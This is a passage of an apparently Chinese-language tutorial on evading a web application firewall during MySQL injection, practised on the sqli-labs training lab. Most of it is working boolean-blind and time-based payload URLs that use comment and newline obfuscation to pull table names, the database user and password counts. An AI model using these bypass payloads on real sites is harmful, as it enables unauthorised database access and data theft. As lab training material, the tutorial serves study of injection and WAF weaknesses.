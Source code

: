 ```
http://172.16.1.157/sql/Less-1/?id=1' and hex(SUBSTR((select table_name from %23a%0a information_schema.tables where table_schema=%23a%0adatabase%23a%0a(/*!)*/ limit 0,1),1,1))=65-- +
```

列名字段名同理，略

### 时间盲注

不匹配成对括号

sleep()绕过

```
http://172.16.1.157/sql/Less-1/?id=1' and sleep(3/*!)*/-- +
```

查用户

```
http://172.16.1.157/sql/Less-1/?id=1'  and if%23%0a(left(user(/*!)*/,1/*!)*/=char(114),sleep(3/*!)*/,1/*!)*/ -- +
http://172.16.1.157/sql/Less-1/?id=1'  and if%23%0a(left(user(/*!)*/,1/*!)*/=0x72,sleep(3/*!)*/,1/*!)*/ -- +
```

查数据 limit过不了

```
http://172.16.1.157/sql/Less-1/?id=1'  and if%23%0a(left((select group_concat(table_name/*!)*/ from%23a%0ainformation_schema.tables where table_schema=database(/*!)*/ /*!)*/,1/*!)*/=0x65,sleep(5/*!)*/,1/*!)*/ -- +
```

## 其他

length()长度

```
http://172.16.1.157/sql/Less-1/?id=1' and length(1)<=>1 -- +
http://172.16.1.157/sql/Less-1/?id=1'  and length(database(/*!))*/<=>8 -- +
```

count()

```
http://172.16.1.157/sql/Less-1/?id=1'  and  (%23a%0aselect count(password/*!)*/ from %23a%0a users/*!)*/<=>13 -- +
```

## 参考

https://github.com/aleenzz/MYSQL_SQL_BYPASS_WIKI

https://www.chabug.org/web/1019.html

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**
